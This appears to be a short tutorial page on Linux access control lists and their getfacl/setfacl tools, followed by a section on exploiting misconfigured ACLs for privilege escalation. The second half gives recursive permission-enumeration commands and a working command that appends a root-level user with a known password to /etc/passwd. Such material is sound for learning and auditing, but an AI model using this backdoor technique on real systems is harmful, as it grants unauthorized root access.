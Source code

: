 ## Access Control List (ACL) in Linux
ACL allow us to appy a mpre specific set of permissions to a file or directory without chaning the base ownership and permissions. In this we can assain a particular user a specfic permission and give two or more group permission.

## The primary tools for managing ACLs are:
- **getfacle**: – View ACL permissions
- **setfacl**: – Modify ACL permissions

## Checking ACL permissions
Use the getfacl command to check if a file or directory has ACLs set:
```bash
getfacl /file-path
```

Example output:
```bash
# file: file-name
# owner: root
# group: root
user::rw-
user:user1:rwx
group::r--
mask::rwx
other::---
```
Here, the user user1 has rwx permissions on the file, even though he is not the owner.
# **Exploiting Misconfigured ACLs**
If a user has excessive permissions on sensitive files or executables, privilege escalation may be possible.

##The getfacl command retrieves Access Control List (ACL) information for files and directories to find unusual permissions.
```bash
 getfacl -t -s -R -p /etc /opt /tmp /bin /home /root /sbin /usr 2> /dev/null 
 getfacl -t -s -R -p / 2>/dev/null | grep -vE "dev|var|run" 
 getfacl -t -s -R -p / 2> /dev/null 
```

### **Write Permissions on /etc/passwd**
If an unprivileged user has write access to /etc/passwd, they can modify it to create a new user with root privileges.

Check ACLs on /etc/passwd
```bash
getfacl /etc/passwd
```
output:
```bash
# file: etc/passwd
# owner: root
# group: root
user::rw-
user:user1:rwx
group::r--
mask::rwx
other::---
```
user1 has write access, they can add a new root user manually:
```bash
echo 'rootme:$1$gi/ZEUV2$uaJQ9FUakihoLNuErGCkw0:0:0:root:/root:/bin/bash' >> /etc/passwd
```
Then, switch to the new root user:
```bash
su rootme
```
Password is 123

